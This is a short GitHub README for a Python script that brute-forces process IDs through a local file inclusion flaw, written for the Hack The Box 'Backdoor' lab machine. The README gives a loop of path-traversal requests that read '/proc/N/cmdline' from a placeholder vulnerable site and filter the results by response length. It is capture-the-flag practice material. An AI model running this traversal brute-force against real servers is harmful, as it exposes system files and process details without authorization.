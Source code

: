 # PID-bruteforce-via-LFI

## Vulnerability
I wrote this python script to help solve the backdoor machine in Hack The Box. The script was used for a brute forcing PID via LFI vulnerability. 


### Tool Overview

The tool Brute-force multiple requests trying a range of numbers for all the PID in the proc directory and filter the results based on the responses length  .

### How to Setup:
1. Change the URL paramenter with the LFI vulnerable site`

```py

for x in range(0,10000):

	url = "http://VULNERABLE.SITE.URL/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	
```         

### Usage:
Use this command to run the python tool you just setup:

`Python3 PID-via-LFI.py`


| Screenshot |
|------------|
|(![PID](https://user-images.githubusercontent.com/68829493/155852527-175a99b4-60d4-4704-9033-fb59b04c2fb5.png)|







